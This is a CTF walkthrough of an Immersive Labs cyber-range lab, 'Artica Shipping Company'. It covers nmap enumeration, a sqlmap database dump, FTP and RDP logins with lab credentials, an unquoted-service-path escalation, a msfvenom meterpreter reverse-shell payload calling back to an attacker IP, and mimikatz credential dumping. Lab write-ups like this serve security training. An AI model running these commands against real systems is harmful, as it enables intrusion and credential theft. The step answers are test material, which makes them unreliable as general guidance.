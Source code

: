 ```yaml
---
date: 2025-05-02
categories: [CTF, ImmersiveLabs]
title: "IML - Offensive Cyber Range: Artica Shipping Company"
tags: ['ftp', 'nmap', 'privilege escalation', 'python', 'rce', 'sqli', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Offensive Cyber Range Artica Shipping Company - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Offensive Cyber Range: Artica Shipping Company


![image1](../resources/1e3b840d470c411aaf26f2852d9d848d.png)

1.) Enum Host 1

![image2](../resources/6099619d24ba47bfa5eb358c5ffdf784.png)

2.) What type of server does Unknown Host 1 appear to be?
FTP server

3\. ) What version of Apache is Artica's intranet using?
nmap \<Host 4\> -p 80 -A

Version: 2.4.41

4.) Identify vulnerabilities in services or servers:
Go to \<host 4\> port 80

The to= parameter is injectable (test with a simple quote ' )

5.) What type of attack is the Artica intranet vulnerable to?
SQLi

6.) What is the username of the FTP account that can be found in the intranet database?

1.  Open burp and catch the request

![image3](../resources/eeff52988b1f4ac790dc6933ed1832d6.png)

2.  Save the request text to a file, call it 'burpfile':

3.  Run:
```bash
sqlmap -r burpfile --batch --dump-all --exclude-sysdb
```
- We get creds:

![image4](../resources/e150f496b8e64f52b717958b66bb2e3b.png)

\| 1 \| WoWmAgE60 \| b.mocarthy \|

\| 2 \| 0912jgf93FSnjf \| artica-ftp-acc

FTP account: **artica-ftp-acc**

7.) Which of the following directories exists on the FTP server?
Tools


![image5](../resources/26a3e175e9484e5381b1ead7831d3b4c.png)

8.) Which port is NOT open on Unknown Host 2?
21

9.) What is the name of the domain Unknown Host 2 is connected to?
NMAP

artica.office

10.) What is the NetBIOS computer name of Unknown Host 1?
From the NMAP

ARTICA-WIN-FTP

11.) What type of attack is the fax server vulnerable to?

Log into ftp server with creds from sql dump

```bash
ftp 10.102.18.198
cd System Administration
binary #Change to binary mode
get fax-server-info.pdf

```
Read it and we get creds:

**DNS: artica-fax-server**
**User: artica\fax_acc**
**Pw: 03mglosmf!!**

Unknown Host 2 is the fax server

- Connect with xfreerdp:
  
```bash
xfreerdp /v:10.102.17.110 /u:artica\fax_acc /p:'03mglosmf!!' /cert:ignore /dynamic-resolution

```
wmic service get name,displayname,startmode,pathname \| findstr /i /v "C:\Windows\\" \|findstr /i /v """


![image6](../resources/5206b6f5fe5b455d8644e631bce83938.png)

C:\Program Files\Artica Applications\Logging Service\log-srv.exe

```bash
icacls "C:\Program Files\Artica Applications"

```

![image7](../resources/00c478fb05904a58b3780b43a369e1f0.png)

**Unquoted service path**

12.) Exploit the vulnerabilities to obtain the tokens.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.52.111 LPORT=9000 -f exe -o Logging.exe

python -m http.server 8080

```
Download rev shell
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.52.111; set lport 9000; exploit"
```

Put in C:\Program Files\Artica Applications

```bash
sc qc "Artica Logging Service"

```

![image8](../resources/2a8b376edfa245f8b714507e30f2aeec.png)


![image9](../resources/d4950d26564f42e78ede32462244301c.png)

```bash
sc start "Artica Logging Service"

```

![image10](../resources/4f693e9e88604e3082a64c5d48d952bc.png)


![image11](../resources/3f5fe6eae22a4e3c94ef6bd423313026.png)

ps

migrate to winlogon.exe

```bash
load kiwi

kiwi_cmd "token::elevate /domainadmin"

```

![image12](../resources/e823fa026d6c4d6e935a82584e83e2ae.png)

```bash
creds_all
```

![image13](../resources/926d2092181247c791d7ff27d6e37d63.png)

**emma.thompson : iLOVEbears1204**

13.) What is the token found within the file located on the Administrator's desktop on the domain controller?

On the existing RDP session - Open Remote Desktop and use the creds for Emma


![image14](../resources/0901a51145da4a09bc83fe15414b4748.png)
